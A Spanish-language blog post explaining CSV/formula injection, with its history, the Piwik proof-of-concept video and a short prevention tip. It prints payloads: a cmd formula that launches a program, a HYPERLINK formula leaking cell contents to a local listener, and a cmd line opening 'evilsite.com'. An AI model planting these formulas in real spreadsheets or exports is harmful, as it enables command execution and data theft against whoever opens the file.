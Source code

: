 ```yaml
---
layout: post
title: Inyección de CSV 
category: Hacking
comments: true
description: La inyección de CSV es un tipo de ataque que fue descubierto por primera vez en 2014, consiste en que el atacante introduce codigo malicioso en formularios que luego seran descargados en excel o csv. El ataque va dirigido a quien se descarga el fichero, normalmente es un ataque que no se suele tener en cuenta, por ejemplo el programa de Bug hunting de Google no lo considera como una vulnerabilidad que entre dentro de su programa de recompensas.
tags:   
    - hacker
    - owasp
    - injection

---
```


La inyección de CSV es un tipo de ataque que fue descubierto por primera vez en [2014](https://www.contextis.com/blog/comma-separated-vulnerabilities){:target="_blank"}, consiste en que el atacante introduce codigo malicioso en formularios que luego seran descargados en excel o csv. El ataque va dirigido a quien se descarga el fichero, normalmente es un ataque que no se suele tener en cuenta, por ejemplo el programa de [Bug hunting de Google](https://sites.google.com/site/bughunteruniversity/nonvuln/csv-excel-formula-injection){:target="_blank"} no lo considera como una vulnerabilidad que entre dentro de su programa de recompensas, aún asi es un tipo de ataque peligroso y a tener en cuenta.

## Ataque básico

Existen muchos tipos de payload para la inyección de CSV, pero el más común seria este:

{% highlight sql linenos %}

=cmd|' /C calc'!A0

{% endhighlight %}

Lo que hace este payload es ejecutar el programa cmd.exe lanzando la calculadora. En este caso es bastante simple, ya que es una calculadora, pero nos abre las puerta a poder ejecutar cualquier otra aplicación o comando con los permisos del usuario que abra el reporte en ese momento.


## Formulas peligrosas

La gran mayoria de payloads se basaran usando estas dos formulas principales:

* Hiperlink (en español Hipervinculo) esta formula crea un link directo a un recurso, sea de la maquina, de la red o de internet. 

{% highlight sql linenos %}

=HYPERLINK(“http://localhost:4444?leak=”&B2&B3&C2&C3,”más detalles”)

{% endhighlight %}

* Cmd, con este comando, tenemos la posibilidad de ejecutar comandos en el ordenador del usuario del Excel, generalmente el Office, OpenOffice y otros avisan al usuario que hay macros y scripts peligrosos, pero si el usuario ignora estos avisos, puede llegar a comprometer todo el sistema.

{% highlight sql linenos %}

=cmd|' /C explorer http://evilsite.com '!A0

{% endhighlight %}


## Prueba de Concepto

Como una imagen vale más que mil palabras, no hay nada mejor que un este video de youtube donde podrás ver una prueba de concepto de una inyección de CSV. 


<iframe width="560" height="315" src="https://www.youtube.com/embed/SC7AkclnG2g?rel=0" frameborder="0" allowfullscreen></iframe>

Resumen del video:

* Tenemos una pagina web asociada con Piwik (un estilo google Analitycs)
* A través de la url hacemos peticiones web erroneas incluyendo un payload de inyección de csv
* Luego accedemos a la cuenta de Piwik donde descargamos las ultimas visitas a nuestra pagina web
* Abrimos el reporte descargado tanto en Office como en OpenOffice y nos salta la calculadora.


## Prevención

Todos los programas estilo Excel, sea el Google Sheet, el Open Office y el propio Excel ejecutan cualquier cosa que parezca una formula, por lo que es un problema complicado de solucionar, ya que para las empresas detras de este software con avisar y decir que hay una macro y mejor deshabilitarlo ya esta, creo que es un enfoque incorrecto, porque muchos Excels, se usan para compartir información entre aplicaciones, por lo que puedes llegar a provocar un problema peor.

Aun asi, en foros como stackoverflow recomiendan poner un espacio o una comilla delante de cualquier = para asi deshabilitar la ejecucion de formulas automaticamente.



